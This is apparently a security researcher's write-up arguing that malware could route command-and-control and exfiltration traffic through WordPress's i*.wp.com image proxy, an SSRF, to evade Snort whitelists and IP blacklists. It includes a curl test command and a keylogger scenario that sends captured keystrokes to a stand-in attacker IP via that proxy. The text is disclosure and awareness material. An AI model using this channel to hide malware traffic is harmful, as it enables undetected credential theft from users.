



# SSRF As a malware communication vector?


In this write-up I explore a possible Server-Side Request Forgery (SSRF) exploitation method that would allow malware to utilize it as a communication vector, this would make network-analysis harder and domain-whitelisting irrelevant as any domain with an SSRF vulnerability could be used as a communication channel.


## What is SSRF?

Server-Side Request Forgery (SSRF) is a vulnerability wherein a legitimate server can be forced to send requests to hosts/domains with varying integrity.
There are currently two types of widely-accepted SSRF vulnerabilities, one of which (general SSRF) allows attackers to forge a request, have the server execute it, and then see the response from the server's behalf - this means that attackers can query internal domains and exfiltrate sensitive information (most commonly, AWS keys) or even modify internal configuration hubs.
The second type, however, is known as 'blind SSRF' - it allows attackers to craft a request that the server will execute, but it does not allow the server to **clearly** view the response (note that; in many cases - blind SSRF is used for internal port-scanning, making it dangerous).
If I've explained this badly, [PortSwigger](https://portswigger.net/web-security/ssrf) provides a good explanation along with [OWASP](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery) & [Acutenix](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/).


## How does malware usually communicate?

When malware is executed; there will often be an initial 'call-home' to the C2/CnC (command-and-control) server hosted by attackers (of course, this varies on a case-by-case basis as sophisticated actors will implement long sleeps before initial contact and some of their adversarial tools may not require CnC contact at all) - here is an example of a common scenario found in malware:



## What role does network analysis play?

When antiviruses are unable to accurately detect a threat, network analysis is used as a last-resort detection method.
By creating specific rules to detect malicious or malformed traffic, network administrators are able to detect an ongoing intrusion and respond appropriately.
The most popular intrusion-detection-system (IDS) is, by far; 'Snort', Snort is described on [their website](https://www.snort.org/) as being:

> The foremost Open Source Intrusion Prevention System (IPS) in the world. Snort IPS uses a series of rules that help define malicious network activity and uses those rules to find packets that match against them and generates alerts for users."

And:

> With over **5 million downloads** and over 600,000 registered users, it is the **most widely deployed** intrusion prevention system in the world.

The above quotes inspire a large degree of confidence in the IDS's capability to protect a network, but, as I'll explain below; bypassing such an IDS can be trivial with the use of SSRF.


## How does pfSense/Snort work?

As I've previously described, Snort is an open-source IDS, it uses predefined rules and heuristic network analysis to detect malicious traffic on a given network, anyone looking to research the project can download [their predefined rules](https://www.snort.org/downloads/#rule-downloads) or view their [source code on GitHub](https://github.com/snort3/snort3).
pfSense however, is an open-source firewall (not limited to an IDS) designed to protect internal network components from external threats, Snort is available as a pfSense plugin which is how most people use it.

Here is an example of a Snort rule:
``alert icmp 192.168.3.10 any -> any any (msg: "ICMP Attack"; sid: 000000001)``
It alerts network administrators of any ``ICMP`` traffic originating from ``192.168.3.10``, to read more; read [this article](https://resources.infosecinstitute.com/topic/network-traffic-analysis-for-ir-event-based-analysis/).
Snort rules can also come in the format of [``YARA`` rules](https://yara.readthedocs.io/en/v3.4.0/writingrules.html) e.g:

```YARA
// Origin: See above hyperlink.
rule ExampleRule
{
    strings:
        $my_text_string = "text here"
        $my_hex_string = { 00 01 01 08 20 0B }

    condition:
        $my_text_string or $my_hex_string
}
```

These rules are particularly effective in preventing malware downloads on an internal network.
In my testing, I'll be using Snort's standalone executable; this is so that I don't need to setup the pfSense ISO on a machine.

## Bypassing network firewalls that take advantage of whitelists.

Now that I've covered how SSRF and intrusion-detection-systems work, it might be clear how SSRF can be used to circumvent existing IDSes by abusing SSRF vulnerabilities in their whitelisted domains.
When typical intrusion-detection-systems would block an connection to ``1.3.3.7`` (a blacklisted domain), they wouldn't be able to identify a connection to the blacklisted domain if it was routed through another server.
This could be compared to the use of a proxy but the reputation of corporate domains (e.g ``wp.com``) outweighs that of a proxy-server.
Here is a diagram that should explain how SSRF can take advantage of server reputations in order to send data to attackers.


## Example - Wordpress.com

An example scenario includes the usage of a SSRF 'feature' (their words) in ``wp.com`` in order to circumvent blacklisted IPs or take advantage of ``wp.com``'s status as a whitelisted domain (if Snort has been configured to whitelist ``wp.com``).

#### Context:

A company called [Automattic](https://automattic.com/) owns many companies, among which, lies [WordPress](https://wordpress.com/) and [Gravatar](https://en.gravatar.com/), an avatar hosting/managing/creating service that is currently widely adopted throughout the internet (most WordPress).

To make a long story short, Gravatar has an issue that extends tot he ``i*.wp.com`` subdomains, to test this - setup a local server that prints all requests to a console/table/file and execute ``curl "i2.wp.com/YOUR_IP/something.png"`` - you should notice how your output is now populated with a request from Wordpress' server, meaning that an SSRF vulnerability does exist.

When I reported this to Automattic a month ago, they said that it was an intended feature because 

>there's code & server side protection that disallows requests to internal servers.

#### Exploit scenario:

- One of the 600,000 registered Snort users downloads a malicious file, their Snort IDS is configured to whitelist ``*.wp.com`` (because they trust WordPress and want to save resources for intercepting potentially risky requests, not Gravatar uploads!)
- The user opens the malicious file (a key-logger).
- The key-logger starts intercepting and storing keystrokes made by the unsuspecting user.
- Every 50 keystrokes (~1-3m) a request is sent to ``http://i2.wp.com/CnC_IP/KEYS_LOGGED`` containing all of the 50 characters intercepted by the key-logger.
- When the user checks his/her pfSense Snort logs, they see no flags/warnings about malicious activity as ``i2.wp.com`` falls under ``*.wp.com``, a trusted domain.
- After looking through their individual request history, they might see ``http://i2.wp.com/1.3.3.7/l|o|g|i|n|+|P|@|s|s|w|0|r|d|!|`` and recognize a breach.

In this scenario, an attacker took advantage of the fact that ``wp.com`` was whitelisted, but the exact same impact could be demonstrated if the attacker's CnC IP had been listed on IP-Blacklisting sources and was blacklisted from Snort as the request from the client would have been send to ``i2.wp.com`` and not the blacklisted IP address, therefore bypassing network detection.

Below is a screenshot of my PoC for this communication vector, it is available on my GitHub.

*(``195.234.109.116`` is the IP of a WordPress server)*

## Summary:

Companies should take SSRF seriously as it can be abused to degrade a website/server's reputation or lead to a domain being blocked outright, SSRF isn't just an attack vector for those attacking *your* company, but it is also one for malicious actors to attack others in an (as of right now) widely-undetected way.

[PoC Project](https://github.com/michaellrowley/Palmettos/tree/main/PoCs/SSRF-Communication).
[My GitHub account](https://github.com/michaellrowley/).
